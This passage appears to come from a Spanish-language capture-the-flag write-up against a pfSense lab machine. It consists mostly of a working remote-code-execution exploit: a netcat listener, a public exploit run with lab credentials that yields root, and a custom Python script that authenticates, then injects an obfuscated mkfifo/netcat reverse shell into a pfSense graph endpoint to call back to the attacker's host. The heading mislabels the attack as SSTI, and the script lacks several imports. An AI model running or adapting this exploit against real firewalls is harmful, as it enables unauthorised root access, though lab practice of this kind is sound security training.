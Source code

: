 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

En el panel de ayuda vemos que nos pide nuestra ip y un puerto.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script

    ```bash
    python pfsense_exploit_rce.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 443 --username rohit --password pfsense
    ```

```bash
whoami
#Output
root
```

Oh my gaaaaadddddddd!!!!!!!!!

La idea aqui es crearnos nuestro proprio script en python

### Nuestro exploit {-}

```python
#!/usr/bin/python3

from pwn import *

import pdb
import urllib3
import html

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "https://10.10.10.60/index.php"
rce_url = "https://10.10.10.60/status_rrd_graph_img.php?database=queues;"
burpsuite = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():

    s = requests.session()
    urllib3.disable_warnings()
    s.verify = False
    r = s.get(main_url)

    csrfMagic = re.findall(r'__csrf_magic\' value="(.*?)"', r.text)[0]

    data_post = {
        '__csrf_magic': csrfMagic,
        'usernamefld': 'rohit',
        'passwordfld': 'pfsense',
        'login': 'Login'
    }

    r = s.post(main_url, data=data_post)

    p1.success("Authenticacion realizada exitosamente como el usuario rohit")

    p2 = log.progress("RCE")
    p2.status("Ejecutando comando a nivel de sistema")

    r = s.get(rce_url + '''ampersand=$(printf+\"\\46\");guion=$(printf+\"\\55\");rm+${HOME}tmp${HOME}f;mkfifo+${HOME}tmp${HOME}f;
    cat+${HOME}tmp${HOME}f|${HOME}bin${HOME}sh+${guion}i+2>${ampersand}1|nc+10.10.14.7+443+>${HOME}tmp${HOME}f''')
    
if __name__ == '__main__':

    p1 = log.progress("Authenticacion")
    p2 = log.progress("RCE")
    p1.status("Iniciando proceso de autenticacion")
    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        p2.failure("No se ha obtenido ninguna conexion")
    else:
        p2.success("Se ha obtenido una conexion")
        shell.interactive()
```